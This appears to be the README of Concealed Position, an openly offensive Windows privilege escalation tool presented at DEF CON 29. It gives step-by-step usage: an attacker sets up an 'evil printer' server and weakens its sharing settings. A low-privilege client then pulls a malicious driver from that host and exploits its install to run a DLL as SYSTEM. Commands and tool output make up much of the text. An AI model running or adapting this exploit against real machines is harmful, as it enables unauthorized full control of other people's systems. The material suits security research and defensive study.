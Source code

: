 # Concealed Position

Concealed Position is a local privilege escalation attack against Windows using the concept of "Bring Your Own Vulnerability". Specifically, CP uses the Point and Print logic in Windows that allows a low privilege user to stage and install printer drivers. CP then exploits the installed driver to escalate to SYSTEM. Concealed Position was first presented at DEF CON 29.

## How does it work?
Concealed Position has two parts. A server (pretending to be a printer) and a client (which will do the LPE). The client reaches out to the server, grabs a driver, gets the driver stored in the driver store, installs the printer, and exploits the install process. Easy!

## I want to add to this!
Cool! Should be pretty easy. The only hard part is that the printer driver must be packaged into a CAB file.

## How do I use this super neat tool?

Let's walk through a step by step guide.

### Server (evil printer) Usage 
To start we prepare the server. It must be a Windows box and it is assumed the attacker has admin privs on this box.

1. Copy the 3rdparty directory onto the Windows box.
2. Copy the cp_server binary (from the bin directory) onto the Windows box.
3. Copy the cab_files directory (from the Windows box) onto the Windows box.
4. From the 3rdparty directory, run converter.exe.
5. From the 3rdparty directory, run CuteWriter.exe.
6. As Administrator, run cp_server.exe. Ensure that the cab_files directory is in the same directory as cp_server.exe. The output should look like this:

```
C:\Users\albinolobster\Desktop>cp_server.exe -h
CLI options:
  -h, --help         Display the help message
  -e, --exploit arg  The exploit to use

Exploits available:
        ACIDDAMAGE
        POISONDAMAGE
        RADIANTDAMAGE

C:\Users\albinolobster\Desktop>cp_server.exe -e ACIDDAMAGE
[+] Checking CutePDF Writer is installed
[+] Staging ACIDDAMAGE files
[+] Opening CutePDF Writer registry for writing
[+] Setting PrinterDriverAttributes
[+] Setting InfPath
[+] Done.
[!] MANUAL STEPS!
[1] Set CutePDF Writer as a shared printer
[2] In Advanced Sharing Settings, Turn on file and printer sharing.
[3] In Advanced Sharing Settings, Turn off password protected sharing.
[4] Reboot

C:\Users\albinolobster\Desktop>
```

7. Set CutePDF Writer as a shared printer (Printer & Scanners -> CutePDF Writer -> Manage -> Printer Properties -> Sharing -> Share this printer)
8. Enable File and Printer sharing (Manage advanced sharing settings -> Guest or Public -> Turn on file and printer sharing)
9. Disable password protected sharing (Manage advanced sharing settings -> All Networks -> Turn off password protected sharing)
10. Reboot

### Client Usage

Client is assumed to be a low privileged user on a Windows box.

1. Copy cp_client.exe to the machine (from bin directory).
2. Provide cp_client.exe with: the evil printer to connect to (-r), the name of the evil printer (-n), and the expected driver (-e).

```
C:\Users\lowlevel\Desktop>cp_client.exe -h
 _______  _______  __    _  _______  _______  _______  ___      _______  ______
|       ||       ||  |  | ||       ||       ||   _   ||   |    |       ||      |
|       ||   _   ||   |_| ||       ||    ___||  |_|  ||   |    |    ___||  _    |
|       ||  | |  ||       ||       ||   |___ |       ||   |    |   |___ | | |   |
|      _||  |_|  ||  _    ||      _||    ___||       ||   |___ |    ___|| |_|   |
|     |_ |       || | |   ||     |_ |   |___ |   _   ||       ||   |___ |       |
|_______||_______||_|  |__||_______||_______||__| |__||_______||_______||______|
 _______  _______  _______  ___   _______  ___   _______  __    _
|       ||       ||       ||   | |       ||   | |       ||  |  | |
|    _  ||   _   ||  _____||   | |_     _||   | |   _   ||   |_| |
|   |_| ||  | |  || |_____ |   |   |   |  |   | |  | |  ||       |
|    ___||  |_|  ||_____  ||   |   |   |  |   | |  |_|  ||  _    |
|   |    |       | _____| ||   |   |   |  |   | |       || | |   |
|___|    |_______||_______||___|   |___|  |___| |_______||_|  |__|

CLI options:
  -h, --help         Display the help message
  -r, --rhost arg    The remote evil printer address
  -n, --name arg     The remote evil printer name
  -e, --exploit arg  The exploit to use

Exploits available:
        ACIDDAMAGE
        POISONDAMAGE
        RADIANTDAMAGE
C:\Users\lowlevel\Desktop>cp_client.exe -r 192.168.237.176 -n "CutePDF Writer" -e ACIDDAMAGE
 _______  _______  __    _  _______  _______  _______  ___      _______  ______
|       ||       ||  |  | ||       ||       ||   _   ||   |    |       ||      |
|       ||   _   ||   |_| ||       ||    ___||  |_|  ||   |    |    ___||  _    |
|       ||  | |  ||       ||       ||   |___ |       ||   |    |   |___ | | |   |
|      _||  |_|  ||  _    ||      _||    ___||       ||   |___ |    ___|| |_|   |
|     |_ |       || | |   ||     |_ |   |___ |   _   ||       ||   |___ |       |
|_______||_______||_|  |__||_______||_______||__| |__||_______||_______||______|
 _______  _______  _______  ___   _______  ___   _______  __    _
|       ||       ||       ||   | |       ||   | |       ||  |  | |
|    _  ||   _   ||  _____||   | |_     _||   | |   _   ||   |_| |
|   |_| ||  | |  || |_____ |   |   |   |  |   | |  | |  ||       |
|    ___||  |_|  ||_____  ||   |   |   |  |   | |  |_|  ||  _    |
|   |    |       | _____| ||   |   |   |  |   | |       || | |   |
|___|    |_______||_______||___|   |___|  |___| |_______||_|  |__|

[+] Checking if driver is already installed
[-] Driver is not available.
[+] Call back to evil printer @ \\192.168.237.176\CutePDF Writer
[+] Staging driver in driver store
[+] Driver staged!
[+] Installing the staged driver
[+] Driver installed!
[+] Starting ACIDDAMAGE
[+] Checking if C:\ProgramData\Lexmark Universal v2\ exists
[-] Target directory doesn't exist. Trigger install.
[+] Installing printer
[+] Read in C:\ProgramData\Lexmark Universal v2\Universal Color Laser.gdl
[+] Searching file contents
[+] Updating file contents
[+] Dropping updated gpl
[+] Dropping dll to disk
[+] Installing printer

C:\Users\lowlevel\Desktop>
```

3. The exploit should automatically run. On success, the "inject_me" binary is loaded with SYSTEM privileges. As this is a simple PoC it simply executes "WinExec("cmd.exe /c whoami > c:\\result.txt", SW_HIDE);"

### Other things

One thing to note is that the inject_me dll is actually embedded in the cp_client as a C array. If you update inject_me, you'll need to manually update the C array as well (just use xxd to generate the array).
